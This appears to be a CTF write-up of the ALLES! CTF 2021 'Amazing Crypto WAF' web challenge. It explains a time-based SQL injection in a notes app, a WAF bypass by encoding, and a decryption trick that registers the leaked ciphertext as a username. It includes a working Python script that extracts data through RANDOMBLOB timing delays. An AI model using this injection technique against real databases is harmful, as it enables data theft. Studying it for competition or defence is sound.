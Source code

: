 ```yaml
---
layout: post
title: Amazing Crypto WAF
category: ALLES! CTF 2021
---
```


So last week I was able to play for a few hours with my team [Super Gusser](https://ctftime.org/team/130817/), once i joined Discord and found that already half of the web challenge siced :D ,  I chose this challenge as a start and my teammate [sapra](https://twitter.com/0xsapra) also joined.

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132334574-a2d19944-8a0e-4c2f-b549-4335e6aa067a.png" alt="main" >

First the challenge was very simple, you can create an account / log in and you can also post some notes.

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132334741-9024bcb3-221b-4816-9ae2-af0cc5520123.png" alt="main" >

Based on all of this and checking the source code which was a good hint for us rather than blindly trying to check all kinds of possible bugs :) .

Later, after reading the code and checking, `sapra` mentions that there is a possible SQL injection which was a time based SQLi in notes function..

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132335060-2ffb3b5a-ce02-4f6f-b807-a2fb04b46e9a.png" alt="main" >

basically we can inject after `order by timestamp`, using this sqli we can leak all data on sqlite database including the flag (the flag was located in the` flagger` account note)

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132335349-f515758e-69bf-4164-8207-bc0ab3059ad3.png" alt="main" >

But !! if we check the code again we can see that the app encrypts all data before inserting it into sqlite database and decrypts it again when requested

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132336000-7684f027-e9c4-4675-aac7-c823c074d2e4.png" alt="main" >

So the issue here, how we can decrypt the flag, even though we can leak it, as the encryption is strong enough and can't be exploited, which means the only way is to find out how we can make the app decrypt the flag for us

The real problem is that if we post a note with the flag leaked, it will be encrypted again and decrypted once, which means we won't be able to get the clear text, but there was a weakness in the code, exactly in the encryption function

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132336496-33f556af-b438-44d7-ab7c-fb6bc8e3f32d.png" alt="main" >

As the application does not encrypt `'uuid', 'id', 'pk', 'username', 'password'` and it does store it in plaintext, we can use this part and create an account with username as encrypted flag and once we are logged in the flag will be decrypted as the app decrypts all content of the response

```
response_data = decrypt_data(proxy_request.content)
```

So what's left here is just leak the flag and decrypt it, but the last step was to bypass the easy waf that detects certain words.

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132336897-499aeed0-6b69-4d82-bdbd-2d7b9fa23290.png" alt="main" >

Using a simple encoding can do the job here, which means we have all the steps we need :)

1 - `Leak "flagger" account notes ( flag note )`

2 - `Create an account using flag as username`

3 - `Read the flag from the home page`


```
import requests
import time

cookies = {
    'session': '116c6bf2d2de45a8d4a1bdac5524fc01.b810785f36c37cc8d4cf48b55c0e45716dd7ccb38f80ac19a08f2a41371711a',
}
#ENCRYPT:SzJEVHVzRmhHaHZmU2pYak0yQVZzQT09OmUzOVBwcXNVWWdhMEw0YXpCVDV2WHRwYnBPRXFaSVpqMFpQRk1BMXNzODE1UGxIUXhwb0hLY2diNGd2VTRYYz06REpPTWk0S01pdmZ3cXVxNFBGcklTdz09
flag_enc = "ENCRYPT:"

pos = len(flag_enc) + 1

for x in range( pos, 200 ):
    for i in "abcdefghijklmnopqrstuvwxyz0123456789ABCDEFGHIJKLMNOPQRSTUVWXYZ+/=":
        t1 = time.time()
        url = "https://7b000000c73b13b1628e0950-amazing-crypto-waf.challenge.master.allesctf.net:31337/notes%3forder=asc,(CASE%20WHEN%20(select%20substr((select%20body%20from%20notes%20where%20user=(select%20uuid%20from%20users%20where%20username='flagger'))," + str(x) + ",1)%20=%20'" + str(i) + "')%20THEN%2012=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(100000000/2))))%20ELSE%20timestamp%20END)%20desc%23"
        response = requests.get(url, cookies=cookies)
        t2 = time.time()
        if (t2 - t1) > 0.9:
            flag_enc += i
            break        
    print flag_enc
```

And here is the FLAG : `ALLES!{American_scientists_said,_dont_do_WAFs!}`

<img style="zoom: 40%;" src="https://user-images.githubusercontent.com/7364615/132345085-727ea1ae-5177-4d63-aa78-d4a8082a59b5.png" alt="main" >


